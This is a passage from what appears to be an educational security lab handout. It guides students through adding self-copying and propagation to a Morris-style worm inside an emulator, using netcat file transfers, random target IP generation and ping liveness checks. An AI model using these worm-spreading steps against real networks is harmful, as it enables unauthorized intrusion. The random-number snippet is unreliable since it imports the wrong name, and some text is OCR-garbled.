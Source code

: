 &emsp; In the following example, we start the server on one computer, and start the client on another computer. The server gets its input from `myfile`, and send the content to the client. The client saves whatever is received from the server to file `myfile`. This completes the file transfer.
```
// Server provides the file
$ nc -lnv 8080 < myfile

// Client gets the file from the server
$ nc -w5 <server_ip> 8080 > myfile
```
&emsp; Typically, we need to start the server first, and then run the client program. However, we can start the client before running the server. We just need to use the `-w5` option on the client. With this option, the client will try to make a connection with the server for 5 seconds. As long as the server can be started within this time window, the connection will go through.
<Br>
&emsp; In the example above, the server sends a file to the client. We can send files in the opposite direction, i.e., the client sends a file to the server.
```
// Server gets the file from client
$ nc -lnv 8080 > myfile

// Client provides the file
$ cat myfile | nc -w5 <server_ip> 8080
```
**Lab task.** Add the self-duplication feature to your worm, so when the buffer-overflow attack is successful, a copy of the worm, i.e., `worm.py` is copied to the victim machine. You can get a shell on the victim container, and check whether a copy is created there or not.

## 6 Task 4: Propagation

After finishing the previous task, we can get the worm to crawl from our computer to the first target, but the worm will not keep crawling. Students need to make changes to `worm.py` so the worm can continue crawling after it arrives on a newly compromised machine.
<Br>
&emsp; Several places in `worm.py` need to be changed. One of them is the `getNextTarget` (), which hard-codes the IP address of the next target. We would like this target addresses to be a new machine. The Morris worm uses several strategies to find the next attack candidate. For the sake of simplicity, students just need to randomly generate an IP address. To further reduce the attack time, we provide the following prior knowledge (intentionally made vague) for students to use when they generate the IP address for the
next target:

- The IP addresses of all the hosts in the emulator have the following pattern: `10.X.0.Y`, where Xranges from `151 to 155 `, andYranges from `70 to 80`.

**Generating random numbers.** In Python, generating random numbers is quite simple. The following code gives an example: it generates a random integer number from 100 to 200.
```
from random import random

number = randint(100, 200)
```
**Testing whether a machine is alive or not.** Before attacking a randomly selected target, it is better to check whether the target is alive or not. There are many ways to do that. One approach is to use the `ping` command to send an echo request to the target, and check whether the target has sent back a reply.
<Br>
&emsp; In the following code snippet, we send out one ping packet (`-c1`) to the target `1.2.3.4`, wait one second (`-W1`) for the reply, and then check whether the output of the command contains "`1 received`", indicating that the reply has been received.
```
ipaddr = ’1.2.3.4’
output = subprocess.check_output(f"ping -q -c1 -W1 {ipaddr}", shell=True)
result = output.find(b’1 received’)

if result == -1:
```